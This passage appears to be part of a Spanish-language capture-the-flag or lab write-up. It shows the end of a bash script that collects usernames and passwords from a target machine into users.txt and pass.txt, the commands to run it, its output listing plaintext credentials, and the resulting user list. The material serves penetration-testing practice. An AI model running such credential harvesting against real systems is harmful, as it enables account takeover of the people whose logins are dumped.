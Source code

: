 ```bash
        echo "$name" >> users.txt
        echo "$password" >> pass.txt
    else
        echo "    No name or password found"
    fi
done
```

Cambiamos la `<IP>` por la nuestra real de la maquina victima, ahora lo ejecutaremos de esta forma:

```shell
chmod +x searchInfo.sh
bash searchInfo.sh
```

Info:

```
[+] Fetching ID: 1
    Name: quick
    Password: q27QAO6FeisAAtbW
[+] Fetching ID: 2
    Name: nick
    Password: H01n8X0fiiBhsNbI
[+] Fetching ID: 3
    Name: andrew
    Password: oyS6518WQxGK8rmk
[+] Fetching ID: 4
    Name: jack
    Password: 2n5kKKcvumiR7vrz
[+] Fetching ID: 5
    Name: mike
    Password: 6G3UCx6aH6UYvJ6m
[+] Fetching ID: 6
    Name: john
    Password: k2I9CR15E9O4G1KI
[+] Fetching ID: 7
    Name: jane
    Password: 62D4hqCrjjNCuxOj
...................................<RESTO DE INFO>.................................
```

Esto lo guardara los nombre de usuario en un `users.txt` y las contraseñas en un `pass.txt` de forma automatica, quedando algo asi:

> users.txt

```
quick
nick
andrew
jack
mike
john
jane
frank
fred
sandra
bill
james
donald
michelle
jeff
lee
laura
coos
neil
```